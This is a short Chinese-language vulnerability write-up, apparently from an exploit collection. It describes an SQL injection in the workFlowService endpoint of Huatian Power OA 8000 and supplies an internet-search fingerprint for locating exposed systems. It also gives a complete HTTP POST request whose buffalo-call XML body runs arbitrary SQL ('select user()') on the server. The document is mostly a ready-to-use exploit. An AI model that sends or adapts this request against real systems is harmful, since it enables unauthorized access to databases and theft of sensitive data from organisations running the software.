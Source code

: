 # 华天动力OA 8000版 workFlowService SQL注入漏洞

## 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

```
华天动力OA 8000版 
```

## 网络测绘

```
app="华天动力-OA8000"
```

## 漏洞复现

产品页面

![img](./images/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

发送请求包验证漏洞

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](./images/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)